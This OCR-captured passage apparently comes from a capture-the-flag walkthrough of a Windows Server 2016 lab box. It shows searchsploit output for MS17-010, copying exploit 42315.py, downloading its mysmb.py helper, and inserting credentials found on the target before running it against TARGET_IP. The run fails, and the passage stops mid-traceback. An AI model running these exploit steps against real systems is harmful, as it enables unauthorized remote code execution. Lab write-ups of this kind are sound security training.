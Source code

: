 Microsoft Windows 8/8.1/2012 R2 (x64) - ' | windows\_x86-64/remote/42030.py

\------------------------------------------ ---------------------------------

Shellcodes: No Results

* Use "42315.py" as this exploit explicitly states Windows 2016 is valid target.

searchsploit -m 42315

Exploit: Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternaMB Remote Code Execution (MS17-010)

URL: https://www.exploit-db.com/exploits/42315

Path: /usr/share/exploitdb/exploits/windows/remote/42315.py

Codes: CVE-2017-0144

Verified: True

File Type: Python script, ASCII text executable

Copied to: /home/kali/42315.py

* Copy exploit to working directory.

cp /usr/share/exploitdb/exploits/windows/remote/42315.py ./exploit.py

* Exploit requires "mysmb.py" module to be in same directory.

wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py

* Change exploit's USERNAME and PASSWORD variables to one of the credentials identified in "passwords.txt".
* Execute exploit using IP address of target host.

python exploit.py TARGET\_IP

* Exploit errored out using either set of credentials.

Target OS: Windows Server 2016 Standard Evaluation 14393

Using named pipe: samr

Traceback (most recent call last):

File "/home/kali/Desktop/Relevant/42315/exploit.py", line 998, in \<module>

exploit(target, pipe\_name)

File "/home/kali/Desktop/Relevant/42315/exploit.py", line 834, in exploit

if not info\['method']\(conn, pipe\_name, info):

^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

File "/home/kali/Desktop/Relevant/42315/exploit.py", line 489, in exploit\_matched\_pairs

info.update(leak\_frag\_size(conn, tid, fid))

^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

File "/home/kali/Desktop/Relevant/42315/exploit.py", line 333, in leak\_frag\_size
